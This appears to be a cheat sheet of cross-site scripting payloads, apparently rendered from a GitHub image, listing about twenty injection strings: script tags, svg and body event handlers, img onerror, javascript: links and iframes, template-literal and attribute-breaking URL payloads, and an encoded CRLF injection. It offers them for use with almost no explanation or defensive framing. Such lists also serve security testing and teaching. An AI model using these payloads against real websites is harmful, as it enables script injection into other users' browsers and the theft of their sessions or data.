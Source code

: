 ```javascript
">cyborg71<script>alert(1337)</script>
```
```javascript
<svg/ onload=alert(1337)//
```
```javascript
<Svg/OnLoad=(confirm)(1337)<!--
```
```javascript
<body/OnResize=(confirm)(123456)<!--
```
```javascript
<img src=x onerror=alert(1337)>
```
```javascript
</script><img src=x onerror=alert(1337)>
```
```javascript
<iframe src="javascript:alert(1337)">
```
```javascript
';alert(1337)//
```
```javascript
${alert(1337)}
```
```html
<custom-tag onmouseover='alert(1337)'>
```
```javascript
/?x=y'%09onclick='alert(1337)'%09accessKey='x'
```
```javascript
/?'accesskey='x'onclick='alert(1337)
```
```javascript
<img ismap=itemtype=yyy style=width:100%;height:100%;position:fixed;left:0px;top\
:0px; onmouseover=alert(/XSS/)//>
```
```javascript
#”><img src=/ onerror=alert(3)>
```
Inject in href attribute:
```javascript
javascript:alert(1337)
```
```html
y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E
```
```html
"><h1>cyborg.71</h1>
```
```javascript
<script onclick="alert(1337)">
```
```html
<a href="javascript:alert('XSS')">Click me</a>
```
```html
<img src="https://i.imgflip.com/8uo0t9.jpg">
```
